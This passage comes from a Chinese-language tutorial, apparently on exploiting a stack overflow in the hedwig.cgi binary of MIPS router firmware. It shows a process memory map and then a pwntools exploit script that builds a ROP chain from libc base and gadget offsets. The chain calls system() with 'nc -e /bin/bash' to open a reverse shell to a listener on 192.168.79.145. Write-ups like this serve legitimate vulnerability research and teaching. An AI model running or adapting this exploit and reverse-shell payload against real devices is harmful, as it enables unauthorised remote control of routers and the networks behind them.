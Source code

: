 ```
77fa8000-77fd1000 r-xp 00000000 08:01 546761     /lib/libgcc_s.so.1
77fd1000-77fe1000 ---p 00000000 00:00 0 
77fe1000-77fe2000 rw-p 00029000 08:01 546761     /lib/libgcc_s.so.1
77fe2000-77fe7000 r-xp 00000000 08:01 547907     /lib/ld-uClibc.so.0
77ff5000-77ff6000 rw-p 00000000 00:00 0 
77ff6000-77ff7000 r--p 00004000 08:01 547907     /lib/ld-uClibc.so.0
77ff7000-77ff8000 rw-p 00005000 08:01 547907     /lib/ld-uClibc.so.0
7ffd6000-7fff7000 rwxp 00000000 00:00 0          [stack]
7fff7000-7fff8000 r-xp 00000000 00:00 0          [vdso]

[11]+  Stopped                 /htdocs/web/hedwig.cgi
root@debian-mipsel:~/squashfs-root#
```

### <a class="reference-link" name="5.3-%E7%BC%96%E5%86%99exp"></a>5.3-编写exp

上面既然用了两种方法：system和sleep(1)，那么下面也使用这两种。

system方法：将上面的exp的libc基地址和偏移改掉然后cmd换成`nc -e /bin/bash 192.168.79.145 9999`

```
#!/usr/bin/python2
from pwn import *
context.endian = "little"
context.arch = "mips"
base_addr = 0x77f34000
system_addr_1 = 0x53200-1
gadget1 = 0x45988
gadget2 = 0x159cc

cmd = 'nc -e /bin/bash 192.168.79.145 9999'
padding = 'A' * 973 #1009-4*9
padding += p32(base_addr + system_addr_1) # s0
padding += p32(base_addr + gadget2)       # s1
padding += 'A' * 4                        # s2
padding += 'A' * 4                        # s3
padding += 'A' * 4                        # s4
padding += 'A' * 4                           # s5
padding += 'A' * 4                        # s6
padding += 'A' * 4                        # s7
padding += 'A' * 4                        # fp
padding += p32(base_addr + gadget1)       # ra
padding += 'B' * 0x10
padding += cmd

f = open("context",'wb')
f.write(padding)
f.close()
```

生成的context通过scp拷贝到mips虚拟机中并且`nano debug.sh`更改debug.sh
